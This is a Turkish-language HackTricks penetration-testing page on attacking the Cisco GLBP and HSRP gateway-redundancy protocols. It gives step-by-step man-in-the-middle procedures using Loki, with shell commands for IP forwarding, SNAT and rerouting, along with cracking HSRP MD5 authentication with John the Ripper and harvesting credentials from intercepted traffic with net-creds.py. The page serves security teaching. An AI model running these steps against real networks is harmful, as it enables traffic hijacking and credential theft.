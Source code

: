 # GLBP ve HSRP Saldırıları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP Kaçırma Genel Bakışı

### FHRP Hakkında Bilgiler
FHRP, birden fazla yönlendiriciyi tek bir sanal birim haline getirerek ağın sağlamlığını sağlamayı amaçlayan bir protokol grubudur, böylece yük dağıtımı ve hata toleransı artırılır. Cisco Systems, bu pakette GLBP ve HSRP gibi önde gelen protokoller tanıttı.

### GLBP Protokolü Hakkında Bilgiler
Cisco'nun oluşturduğu GLBP, TCP/IP yığınında çalışır ve iletişim için UDP'yi 3222 numaralı portta kullanır. GLBP grubundaki yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri alışverişi yapar. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse, çevrimdışı olarak kabul edilir. Bununla birlikte, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağıtımı
GLBP, tek bir sanal IP ile birleştirilmiş birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağıtımını sağlayarak öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine dahil olur. HSRP/VRRP'nin aksine, GLBP, şu mekanizmalar aracılığıyla gerçek yük dengelemesi sunar:

- **Ana Bilgisayara Bağımlı Yük Dengeleme:** Bir ana bilgisayara sürekli AVF MAC adresi atamasını korur, bu, kararlı NAT yapılandırmaları için önemlidir.
- **Round-Robin Yük Dengeleme:** Varsayılan yaklaşım, talep eden ana bilgisayarlara yönelik AVF MAC adresi atamasını sırayla değiştirir.
- **Ağırlıklı Round-Robin Yük Dengeleme:** Önceden belirlenmiş "Ağırlık" metriklerine dayalı olarak yükü dağıtır.

### GLBP'de Ana Bileşenler ve Terimler
- **AVG (Aktif Sanal Ağ Geçidi):** MAC adreslerini eş yönlendiricilere atamaktan sorumlu ana yönlendirici.
- **AVF (Aktif Sanal Yönlendirici):** Ağ trafiğini yönetmek için belirlenen bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir metrik, varsayılan olarak 100'den başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlığı:** Bir yönlendiricideki mevcut yükü yansıtır, manuel olarak veya Nesne İzleme aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Bağlı tüm cihazlar için ağın varsayılan ağ geçidi olarak hizmet verir.

Etkileşimler için GLBP, ayrılmış 224.0.0.102 çoklu yayın adresini ve UDP portunu 3222 kullanır. Yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri iletimi yapar ve bir paket 10 saniyelik bir süre içinde kaçırılırsa işlevsiz kabul edilir.

### GLBP Saldırı Mekanizması
Bir saldırgan, en yüksek öncelik değerine (255) sahip bir GLBP paketi göndererek ana yönlendirici haline gelebilir. Bu, trafik yakalama veya yönlendirme olanağı sağlayarak DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme
[Loki](https://github.com/raizo62/loki_on_kali), öncelik ve ağırlığı 255'e ayarlanmış bir paket enjekte ederek bir GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, Wireshark gibi araçlar kullanılarak sanal IP adresi, kimlik doğrulama varlığı ve yönlendirici öncelik değerlerini toplamayı içerir.

Saldırı Adımları:
1. Promiskü moduna geçin ve IP yönlendirmeyi etkinleştirin.
2. Hedef yönlendiriciyi tanımlayın ve IP'sini alın.
3. Bir İsteksiz ARP oluşturun.
4. AVG'yi taklit eden kötü amaçlı bir GLBP paketi enjekte edin.
5. Saldırganın ağ arabirimine GLBP sanal IP'sini yansıtan ikincil bir IP adresi atayın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. İnternet erişimini orijinal AVG yönlendiricisi üzerinden devam ettirmek için yönlendirmeyi ayarlayın.

Bu adımları takip ederek, saldırgan kendisini ağ trafiğini, şifrelenmemiş veya hassas verileri de içeren bir "orta adam" olarak konumlandırabilir ve analiz edebilir.

Demonstrasyon için gereken komut parçaları aşağıda verilmiştir:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP Sızma Yöntemi Pasif Açıklaması ve Komut Detayları

#### HSRP (Hot Standby Router/Redundancy Protocol) Genel Bakış
HSRP, ağ geçidi yedekliliği için tasarlanmış Cisco'ya ait bir protokoldür. Birden fazla fiziksel yönlendiriciyi paylaşılan bir IP adresine sahip tek bir mantıksal birim olarak yapılandırmayı sağlar. Bu mantıksal birim, trafiği yönlendirmekten sorumlu olan birincil yönlendirici tarafından yönetilir. GLBP'nin aksine, yük dengelemesi için öncelik ve ağırlık gibi metrikler kullanmaz, HSRP trafiği yönetimi için tek bir etkin yönlendiriciye dayanır.

#### HSRP'de Roller ve Terimler
- **HSRP Etkin Yönlendirici**: Trafik akışını yöneten ağ geçidi olarak hareket eden cihaz.
- **HSRP Bekleme Yönlendirici**: Etkin yönlendirici başarısız olursa devralmaya hazır yedek yönlendirici.
- **HSRP Grubu**: Tek bir dayanıklı sanal yönlendirici oluşturmak için işbirliği yapan yönlendiriciler kümesi.
- **HSRP MAC Adresi**: HSRP yapılandırmasındaki mantıksal yönlendiriciye atanmış sanal MAC adresi.
- **HSRP Sanal IP Adresi**: Bağlı cihazlar için varsayılan ağ geçidi olarak hareket eden HSRP grubunun sanal IP adresi.

#### HSRP Sürümleri
HSRP iki sürümde gelir, HSRPv1 ve HSRPv2, grup kapasitesi, çoklu yayın IP kullanımı ve sanal MAC adres yapısı açısından farklılık gösterir. Protokol, hizmet bilgileri alışverişi için belirli çoklu yayın IP adreslerini kullanır, Hello paketleri her 3 saniyede bir gönderilir. Bir yönlendiriciye 10 saniyelik bir süre içinde paket alınmazsa etkin olmadığı varsayılır.

#### HSRP Saldırı Mekanizması
HSRP saldırıları, Etkin Yönlendirici'nin rolünü zorla alarak maksimum öncelik değeri enjekte etmeyi içerir. Bu, Man-In-The-Middle (MITM) saldırısına yol açabilir. Temel saldırı öncesi adımlar arasında HSRP yapılandırması hakkında veri toplamak yer alır, bu da trafiği analiz etmek için Wireshark kullanılarak yapılabilir.

#### HSRP Kimlik Doğrulamasını Atlayan Adımlar
1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. .pcap dosyasından MD5 karma değerlerini hsrp2john.py kullanarak çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper kullanarak MD5 karma değerlerini kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki ile HSRP Enjeksiyonu Gerçekleştirme**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moduna ayarlayın ve IP yönlendirmeyi etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi belirli yönlendiriciyi hedeflemek, kırılmış HSRP şifresini girmek ve Etkin Yönlendiriciyi taklit etmek için gerekli yapılandırmaları yapmak için kullanın.
4. Etkin Yönlendirici rolünü aldıktan sonra, ağ arayüzünü ve IP tablolarını yapılandırarak meşru trafiği engelleyin.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafik yönlendirmek için yönlendirme tablosunu değiştirin ve eski Etkin Yönlendirici üzerinden trafiği yönlendirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Yakalanan trafiğe ait kimlik bilgilerini almak için net-creds.py veya benzer bir yardımcı programı kullanın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak saldırganı, GLBP sızma yöntemi için yapılan işlemlere benzer şekilde trafiği engellemek ve manipüle etmek için bir konuma yerleştirir. Bu, HSRP gibi yedeklilik protokollerindeki zafiyeti ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.
